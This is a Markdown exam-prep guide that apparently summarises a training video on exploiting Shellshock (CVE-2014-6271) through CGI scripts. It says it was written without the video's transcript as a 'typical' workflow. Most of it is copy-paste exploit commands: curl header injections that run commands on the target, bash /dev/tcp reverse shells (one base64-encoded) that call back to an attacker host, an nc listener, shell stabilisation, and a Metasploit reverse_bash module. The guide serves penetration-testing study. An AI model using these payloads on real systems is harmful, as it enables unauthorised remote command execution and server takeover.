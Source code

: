 # Vulnerability Analysis: Shellshock (CVE-2014-6271)

Note: No transcript was provided. The following summary and commands are a conservative, typical eJPT-style workflow for identifying and exploiting Shellshock in a web/CGI context. Adjust paths and payloads to your target.

## What the video covers (Introduction / big picture)
- What Shellshock is: a Bash environment variable parsing bug that allows code execution when Bash processes function definitions from environment variables.
- Where it appears: commonly in Apache with mod_cgi/mod_cgid and CGI scripts (e.g., .cgi, .sh, .pl), where HTTP headers become environment variables.
- How to identify: enumerate web services, find CGI endpoints, then test injecting the classic Shellshock payload via headers.
- How to exploit: inject commands for proof-of-exploit (id, uname), then establish a reverse shell.
- Tooling: Nmap NSE for detection, directory fuzzers to find CGI, curl/Burp for manual testing, Metasploit for automated exploitation.

## Flow (ordered)
1. Enumerate HTTP/HTTPS services and version info.
2. Discover CGI endpoints (e.g., /cgi-bin/, .cgi/.sh files).
3. Test for Shellshock via header injection (User-Agent, Referer, Cookie).
4. Validate RCE with harmless commands (id, uname -a).
5. Get a reverse shell (bash TCP or nc) and stabilize.
6. Optional: Use Metasploit’s Apache mod_cgi Shellshock module if manual fails or for speed.

## Tools highlighted
- Nmap with NSE: http-shellshock
- Gobuster or ffuf for content/CGI discovery
- Nikto (has Shellshock checks)
- curl or Burp Suite for header injection testing
- Netcat (listener)
- Metasploit: exploit/multi/http/apache_mod_cgi_bash_env_exec
- Basic Unix utilities (base64, bash, python3 pty)

## Typical command walkthrough (detailed, copy-paste friendly)
Set your working vars:
```bash
export TARGET=10.10.10.10
export BASE=http://$TARGET
export CGI=/cgi-bin/test.cgi   # adjust after discovery
export LHOST=10.10.14.3        # your attack box IP
export LPORT=4444
```

1) Enumerate HTTP services and test Shellshock quickly with NSE
```bash
# Fast service/version discovery
nmap -sC -sV -p 80,443,8080,8000 $TARGET

# Shellshock NSE (adjust uri to a discovered CGI path)
nmap -sV -p80,443 --script http-shellshock \
  --script-args "http-shellshock.uri=$CGI" $TARGET
```

2) Find CGI endpoints
```bash
# Directory discovery for /cgi-bin/
gobuster dir -u $BASE/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

# If /cgi-bin/ exists, find files inside; try common CGI extensions
gobuster dir -u $BASE/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x cgi,sh,pl

# Alternative with ffuf
ffuf -u $BASE/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
ffuf -u $BASE/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .cgi,.sh,.pl
```

3) Quick manual Shellshock test (User-Agent header)
```bash
# Harmless RCE test: expect uid/gid output in response
curl -s -H 'User-Agent: () { :;}; echo; echo; /bin/bash -c "id; uname -a"' $BASE$CGI
```

If you get no output or a 500/403, try a different header or CGI path:
```bash
curl -s -H 'Referer: () { :;}; /bin/bash -c "id"' $BASE$CGI
curl -s -H 'Cookie: () { :;}; /bin/bash -c "id"' $BASE$CGI
```

4) Reverse shell (bash over TCP)
Prepare listener:
```bash
nc -lvnp $LPORT
```

Trigger via User-Agent (works if CGI is vulnerable):
```bash
curl -s -H 'User-Agent: () { :;}; /bin/bash -c "bash -i >& /dev/tcp/'"$LHOST"'/'"$LPORT"' 0>&1"' $BASE$CGI
```

If quoting is problematic, use base64 to avoid special characters:
```bash
export RSHELL="bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1"
export B64=$(echo -n "$RSHELL" | base64 -w0)

curl -s -H 'User-Agent: () { :;}; /bin/bash -c "echo '"$B64"' | base64 -d | bash"' $BASE$CGI
```

5) Stabilize shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty cols 120 rows 30
```

6) Alternative/validation with Nikto
```bash
nikto -h $BASE -Plugins shellshock
```

7) Metasploit route (if preferred)
```bash
msfconsole -q
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS $TARGET
set RPORT 80
set TARGETURI $CGI
set PAYLOAD cmd/unix/reverse_bash
set LHOST $LHOST
set LPORT $LPORT
run
```

## Practical tips
- Shellshock usually hits Apache with mod_cgi/mod_cgid and CGI handlers; focus on /cgi-bin/ and files with .cgi/.sh/.pl. Some setups map other extensions to CGI, so fuzz extensions.
- Start with benign commands (id, uname, whoami) to confirm RCE before reverse shells.
- If HTTPS and self-signed, add -k to curl. Example: curl -ks ...
- Headers most likely to work: User-Agent, Referer, Cookie. Not all headers become environment variables in CGI—test a few.
- Quoting breaks many attempts. Use base64 encoding to avoid shell metacharacter issues.
- Nmap NSE needs the correct CGI path; combine with directory fuzzing before relying on NSE results.
- If responses don’t show command output, try commands that affect headers or response content, or check server error logs if you have access. Some CGI scripts suppress stdout.
- Some targets only accept POST to the script—try: curl -s -X POST -H 'User-Agent: ...' $BASE$CGI
- Not all Bash versions are vulnerable; some systems default to dash/ash. The CGI must invoke bash or pass the environment to bash for the bug to trigger.

## Minimal cheat sheet (one-screen flow)
```bash
# Vars
export TARGET=10.10.10.10; export BASE=http://$TARGET; export CGI=/cgi-bin/test.cgi
export LHOST=10.10.14.3; export LPORT=4444

# 1) Enumerate
nmap -sC -sV -p80,443 $TARGET
gobuster dir -u $BASE/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
gobuster dir -u $BASE/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x cgi,sh,pl

# 2) Test Shellshock
curl -s -H 'User-Agent: () { :;}; echo; /bin/bash -c "id; uname -a"' $BASE$CGI

# 3) Reverse shell (listener + trigger)
nc -lvnp $LPORT
curl -s -H 'User-Agent: () { :;}; /bin/bash -c "bash -i >& /dev/tcp/'"$LHOST"'/'"$LPORT"' 0>&1"' $BASE$CGI
# or base64-encoded payload:
B64=$(echo -n "bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1" | base64 -w0)
curl -s -H 'User-Agent: () { :;}; /bin/bash -c "echo '"$B64"' | base64 -d | bash"' $BASE$CGI

# 4) Stabilize shell
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```

## Summary
- Shellshock is a Bash environment variable parsing flaw exploitable via CGI-exposed headers, enabling unauthenticated command execution on vulnerable web servers.
- The eJPT workflow: enumerate web services, find CGI endpoints, inject the classic Shellshock payload through HTTP headers, confirm RCE, and obtain a reverse shell.
- Key tools: Nmap NSE http-shellshock, gobuster/ffuf, curl/Burp for manual exploitation, Nikto for quick checks, and Metasploit for automated exploitation.
- Success hinges on finding the correct CGI path and handling quoting carefully; base64-wrapping the payload is a reliable approach.